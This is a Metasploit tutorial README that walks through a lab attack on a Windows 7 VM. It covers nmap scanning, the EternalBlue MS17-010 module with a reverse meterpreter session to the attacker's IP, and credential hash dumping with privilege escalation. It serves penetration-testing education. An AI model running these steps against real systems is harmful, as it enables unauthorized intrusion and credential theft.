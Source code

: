 
# Metasploit

Metasploit is an exploitation framework (aka penetration framework) , build for security professional to support penetration testing.

**Most related alternative**

Cobalt strike – closed source/ commercial use only

## Why prefer Metasploit?
It supports and provides sufficient tools for almost all the phases of the penetration testing.

**Notations**
```mermaid
graph TB
A(Metasploit support)
B(Commercial version only)
style A fill:lightgreen,color:black,stroke:#333,stroke-width:1px
style B fill:orange,color:black,stroke:#333,stroke-width:1px

```
**Phases of penetration testing**
```mermaid
graph LR
A(Reconnance) --> B(Scanning)
B --> C(Gaining Access)
C --> D(Maintaining Access)
D --> E(Clearing Tracks)
E --> F(Reporting)

style A fill:lightgreen,color:black,stroke-width:1px
style B fill:lightgreen,color:black,stroke-width:1px
style C fill:lightgreen,color:black,stroke-width:1px
style D fill:lightgreen,color:black,stroke-width:1px
style E fill:lightgreen,color:black,stroke-width:1px
style F fill:orange,color:black,stroke-width:1px
```

## Modules provided by Metasploit?

 - exploits – the code that if executed takes advantage of the vulnerability to get unauthorized access to the desired system. Usually by the payload.

- payload – used by exploits. payload is a piece of code that are run by the target after successful exploitation (for backdoor, add new user, privilege escalation)

- Auxiliary – pre-exploitation features (scanning, fuzzing, sniffing)

- Encoders – to bypass firewall, IDS, IPS, Antivirus

- NOPS – no operation, use to ensure that if using multiple payloads, it is of same size. It ensures the proper execution of the instructions.

## How to Get Started?

### Metasploit Framework is Accessible Through:

 - Msfconsole [Metasploit Unleashed (offsec.com)](https://www.offsec.com/metasploit-unleashed/msfconsole/)
 - Armitage


**NOTE:** In case you are using any pen-testing OS like [Kali Linux](https://www.kali.org/) or [Parrot Security](https://www.parrotsec.org/), Metasploit  framework comes pre-installed with Msfconsole in them. 


## Hacking Windows 7 Machine?

**Attacker's Machine:** Kali Linux 2022.2

**Target Machine:** Windows 7

**Prerequisite:** 

 - The environment is setup oracle vmware, in NAT connection 
 - The firewall of the windows is already disabled in this demonstration
 - The Attacker and Target machine is connected over the save network. i.e., they are in same subnet.  

**NOTE: All steps written below will be performed in the atacker's machine**

**Step 1: Open msfconsole**

```bash
sudo msfconsole
```

**Step 2: Finding the Target's IP**

Find your eth0 IP address, to identify subnet to scan, because as the target machine is connected with the same router, it must be in the same subnet as well.
```bash
msf> ifconfig
```
Let attaker's IP: 192.168.126.128
Running a simple no-port host discovery nmap scan on the sub-network to find the target's machine.
```bash
msf> nmap -sn 192.168.126.0/24
```
![scan 1  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan1.png)

One of this host could be the target machine we are looking for, so let's perform the osscan to be sure.
```bash
msf> nmap -O 192.168.126.0/24
```
![scan 2  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan2.png)
We found the IP address of the target machine.
Target IP: 192.168.126.132

**Step 3: Finding Vulnerability in Target Machine**

Checking if the current version of OS the target machine is running on is having any publicly known vulnerability. This can be achieved by nmap script scan.
```bash
msf> nmap --script="vuln" 192.168.126.132
```
![scan 3  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan3.png)

We identified that the target's machine is vulnerable for remote code execution, by the exploit smb-vuln-ms17-010. more details could be gathered from [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143).

**Step 4: Finding and Setting up the Exploit**

search is there is any exploit module available to exploit the Windows's SMB vulnerability ms17-101.

```bash
msf> search ms17 platform:windows
```

![exploit 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit1.png)


As we can see in the description of module index 0, it is mentioned that it provides an exploit named EternalBlue for MS17-010 vulnerability. We are going to use EternalBlue exploit, although you can also go for other modules.

```bash
msf> use 0
msf> show options
```

**NOTE:** You can use "show payload" to explore and change payload attached with the exploit.

![exploit 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit2.png)


As you can see, the place of RHOST is not set and mandatory to fill.

```bash
msf> set RHOST 192.168.126.132
```

![exploit 3 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit3.png)

**NOTE:** If your LHOST and LPORT is not set by default you can run following command to set LHOST to attacker's IP and LPORT to any random free port.
```bash
msf> set LHOST 192.168.126.128
msf> set LPORT 4444
```
**Step 5: Exploiting to Gain Access**

After setting up the environment just type exploit or run to execute the payload.
```bash
msf> exploit
```

Wait for few seconds and you will see an active meterpreter session. To verify your access, you can run following commands.

```bash
meterpreter> sysinfo
meterpreter> pwd
```

![success 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/success1.png)

**Step 6: Post Exploitation Steps**
commands like hashdump and getsystem could be used to perform privilege escalation. 

```bash
meterpreter> hashdump
meterpreter> getsystem
```

![success 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/success2.png)

However, it looks like the exploit we used also gave us the admin privilege in the provided meterpreter session.
